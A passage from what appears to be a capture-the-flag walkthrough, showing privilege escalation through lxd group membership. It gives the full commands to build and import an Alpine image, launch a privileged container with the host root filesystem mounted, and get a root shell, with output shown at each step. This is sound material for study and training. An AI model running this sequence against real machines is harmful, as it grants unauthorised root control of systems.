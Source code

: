 Group: `lxd`

## Privilege Escalation

Now we need to gain root access. Since we are in lxd group, we can try to get access to root files. Let's list the images installed on the machine:

~~~
$ lxc image list
+----------+--------------+--------+------------------------------------+--------+--------+------------------------------+
|  ALIAS   | FINGERPRINT  | PUBLIC |            DESCRIPTION             |  ARCH  |  SIZE  |         UPLOAD DATE          |
+----------+--------------+--------+------------------------------------+--------+--------+------------------------------+

~~~

There is no images installed. There is supposed to be `myalpine`. We can install it ourselves. Do the following steps on your machine:
~~~
$ git clone https://github.com/saghul/lxd-alpine-builder.git
$ cd lxd-alpine-builder
$ ./build-alpine
~~~

The output is a `.tar.gz` file. transfer this file to the target machine with a python server and `wget` on the target machine. Now perfrom the following:

~~~
www-data@ubuntu:/tmp$ lxc image import alpine-v3.14-x86_64-20211012_1129.tar.gz --alias myalpine
<-v3.14-x86_64-20211012_1129.tar.gz --alias myalpine
www-data@ubuntu:/tmp$ lxc image list
lxc image list
+----------+--------------+--------+-------------------------------+--------+--------+------------------------------+
|  ALIAS   | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE          |
+----------+--------------+--------+-------------------------------+--------+--------+------------------------------+
| myalpine | d62494cf2606 | no     | alpine v3.14 (20211012_11:29) | x86_64 | 3.08MB | Oct 12, 2021 at 4:01pm (UTC) |
+----------+--------------+--------+-------------------------------+--------+--------+------------------------------+
www-data@ubuntu:/tmp$ lxc init myalpine joker -c security.privileged=true
lxc init myalpine joker -c security.privileged=true
Creating joker
www-data@ubuntu:/tmp$ lxc config device add joker mydevice disk source=/ path=/mnt/root recursive=true
<ydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to joker
www-data@ubuntu:/tmp$ lxc start joker
lxc start joker
www-data@ubuntu:/tmp$ lxc exec joker /bin/sh
lxc exec joker /bin/sh

~ # id
uid=0(root) gid=0(root)
~~~

